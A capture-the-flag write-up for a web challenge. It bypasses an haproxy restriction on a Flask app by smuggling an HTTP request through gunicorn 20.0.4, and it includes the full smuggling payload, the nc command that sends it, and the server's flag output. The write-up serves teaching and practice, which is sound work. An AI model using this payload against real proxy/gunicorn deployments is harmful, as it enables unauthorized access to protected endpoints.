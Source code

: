 # ## Release the (g)Unicorn

**Author:** randN
**Category:** web
**Difficulty:** easy

## Description
```
I was surfing the Internet and came across a unicorn and a cat guarding a door. Can you help me open it?
```

## Solve

The challenge source code was provided, including the Dockerfile. We could look at the source code first and try to access the application and see how it works. The page served when accessing the URL:

![Alt text](https://github.com/uac-ctf/UA-CSW-CTF2022-Writeups/blob/master/web/release_unicorn/images/home_page.png?raw=true)

Looking into the code, we can see that there more endpoints:

```python
@app.route('/admin', methods=['GET', 'POST'])
def admin():
    return 'Under Construction...'


@app.route('/flag')
def flag():
    with open('flag', 'r') as f:
        return f.read()
```

If we try to access the */flag* endpoint, we get a **403 Forbidden**. The challenge objective was to find a way to bypass the restriction mechanism imposed in haproxy.
The challenge title was a big clue to solve this challenge, and if we look into the *requirements.txt* file, the gunicorn version is defined to *20.0.4*.

```python
Flask
flask_limiter
gunicorn==20.0.4
gunicorn[gevent]
```

A quick Google search for vulnerabilities in this version, we will come across this blog post, <https://grenfeldt.dev/2021/04/01/gunicorn-20.0.4-request-smuggling/>. From here, we just need to adapt the payload to the challenge. A possible solution would be:

```bash
GET /admin HTTP/1.1
Host: cybersecweek.ua.pt:2005
Content-Length: 78
Sec-Websocket-Key1: x

xxxxxxxxGET /flag HTTP/1.1
Host: cybersecweek.ua.pt:2005
Content-Length: 48

GET / HTTP/1.1
Host: cybersecweek.ua.pt:2005

```

Then we need to send this request to the challenge:

```bash
cat smuggle.txt | nc cybersecweek.ua.pt 2005
# Results in
HTTP/1.1 200 OK
server: gunicorn/20.0.4
date: Sun, 29 May 2022 20:14:33 GMT
content-type: text/html; charset=utf-8
content-length: 21

Under Construction...HTTP/1.1 200 OK
server: gunicorn/20.0.4
date: Sun, 29 May 2022 20:14:33 GMT
content-type: text/html; charset=utf-8
content-length: 45

CTFUA{Smuggl3_w1Th_gUn1c0rN_MTMzN1lvdVJvY2s=}
```
